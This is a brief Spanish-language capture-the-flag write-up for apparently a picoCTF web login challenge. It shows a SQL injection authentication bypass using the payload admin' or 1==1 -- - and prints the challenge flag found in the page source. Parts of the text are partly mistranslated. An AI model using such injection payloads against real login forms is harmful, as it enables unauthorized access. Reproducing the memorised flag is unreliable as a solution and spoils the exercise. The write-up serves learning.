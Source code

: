 Description
Can you login to this website?
Try to login here.

vamos a inspeccionar el codigo
vemos la opcion de loggin
y nos dice 
<pre>username: 
password: 
SQL query: SELECT * FROM users WHERE name=&#039;&#039; AND password=&#039;&#039;
</pre><h1>Login failed.</h1>
intentamos uasr una inyeccion SQl
poneindo 
admin' or  1==1 -- - en user y pasword
nombre de usuario: admin' o 1==1 -- -
contraseña: admin' o 1==1 -- -


Y nos sale esto 

Consulta SQL: SELECT * FROM users WHERE nombre='admin' o 1==1 -- -' Y contraseña='admin' o 1==1 -- -'
¡Iniciaste sesión! Pero, ¿puedes ver la bandera? Está a la vista.

pero no se ve la bandera, asiq ue le damos control u y nos aparece esto 
<pre>username: admin&#039; or  1==1 -- -
password: admin&#039; or  1==1 -- -
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; or  1==1 -- -&#039; AND password=&#039;admin&#039; or  1==1 -- -&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
y ahi nos da la bandera


Bandera
==picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}==

Referencias
https://www.youtube.com/watch?v=FNVx9hCSwTY